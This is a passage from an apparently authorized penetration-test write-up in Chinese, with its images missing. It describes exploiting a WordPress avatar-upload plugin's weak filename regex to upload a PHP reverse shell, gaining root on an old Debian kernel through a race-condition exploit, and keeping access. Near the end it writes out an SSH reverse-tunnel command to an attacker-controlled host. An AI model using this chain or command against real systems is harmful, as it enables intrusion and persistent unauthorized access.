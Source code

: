 取得WordPress系统的权限了,接下来可以白盒审计一下,看看是否有其他的漏洞可能被攻击者利用.这里我们审计了WordPress安装的插件.

审计插件的时候发现一个可以允许用户上传头像的插件.

![]()

通过对这个插件的源码进行审计,发现它是通过一个正则表达式来控制上传文件的类型的.

![]()

上面这段用来检查上传文件的代码是存在缺陷的.这个正则对字符串进行了一次简单的过滤,而且这是唯一的一个检测文件类型的手段.它的本意是只允许像”Myimage.png”这样的文件名.但是像”Myimage.png.php”这样的文件名也可以成功通过正则的检测,上传到服务器上.

虽然将后续攻击上传到服务器上有很多方法(前面提到过,比如修改主题).但是我们决定采用这个漏洞来上传.一是可以验证一个新的漏洞,二是这样子对服务器所做的更改最小化.

![]()

为了验证这个上传过程确实跟我们分析的一样,先上传了一个标准的图像文件作为测试.然后上传了一个配置好的反弹shell的php脚本.

执行这个脚本,在攻击者控制的远程服务器上可以获得一个交互式的shell环境.因为这个shell是以webserver的权限的运行的,所以它只有很低的权限.

![]()

# Linux本地权限提升

获得了目标网站服务器的交互式shell之后,下一个目标自然是获得系统的root权限了.

目标系统的相关信息如下: Linux version 2.6.32-5-686 (Debian 2.6.32-38) (ben@decadent.org.uk) (gcc version 4.3.5 (Debian 4.3.5-4) ) #1 SMP Mon Oct 3 04:15:24 UTC 2011

经过一番资料搜索和测试,发现这个系统存在一个race condition的缺陷.先是通过上传头像的插件上传了利用代码.

![]()

解压,加执行权限,执行利用程序,成功获得root权限.

![]()

现在,这个网站服务器已经可以作为一个恶意攻击者进行内网渗透的跳板了.如果这是一次真实的攻击,那么这台网站服务器上的任何数据都已经不可信了,因为攻击者可以随意修改控制.

# 长期驻守服务器

获得了服务器的管理权限之后,就需要维护一个更加稳定的连接来进行后续的渗透.

通过对该服务器的检查,发现它的ssh服务运行在22000端口.我们决定使用ssh将内网端口转发出来.这样子既方便,又不会给服务器带来额外的安全风险.

为了把对系统的变更降到最低,我们既没有添加账户,也没有修改账户口令.而是采用了SSH 基于密钥的认证方式.

之前提到过.我们自己控制的SSH服务器,ssh开在53端口.通过执行以下命令,将网站服务器的22000端口转发出来.

ssh -o 'StrictHostKeyChecking no' -R 22000:127.0.0.1:22000 -p 53 172.16.40.204 ping 127.0.0.1

![]()

此外还需要创建一个SOCKS代理,这样攻击者就可以通过这个代理来访问目标网络里的服务.
